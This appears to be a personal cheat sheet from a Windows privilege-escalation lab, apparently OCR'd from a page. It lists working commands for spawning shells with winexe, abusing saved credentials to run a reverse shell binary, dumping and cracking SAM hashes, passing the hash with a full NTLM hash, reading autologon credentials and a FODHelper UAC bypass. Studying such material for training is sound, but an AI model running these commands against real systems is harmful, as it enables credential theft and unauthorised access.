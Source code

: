 use winexe to spawn cmd

```
winexe -U 'admin%password' //10.10.241.122 cmd.exe
```

### saved creds

---

List saved creds:

```
cmdkey /list
```

on Kali:

```
runas /savecred /user:admin C:\PrivEsc\reverse.exe
```

### SAM

---

copy SAM and SYSTEM files to kali.

```bash
git clone https://github.com/Tib3rius/creddump7
pip3 install pycrypto
python3 creddump7/pwdump.py SYSTEM SAM > hashes.txt
```

```
hashcat -m 1000 --force hashes.txt /usr/share/wordlists/rockyou.txt
```

### pass the hash

---

```bash
pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //10.10.180.131 cmd.exe 
```

### autologons

---

On Covenant:

* Enumerate with `PowerUp.ps1` or `Seatbelt WindowsAutoLogon` to view Autologon credentials

### FODHelper

---

On Covenant, with a Medium integrity shell:

```
PowershellImport

* select helper.ps1 *

powershell helped -custom "cmd.exe /c <blah>"
```

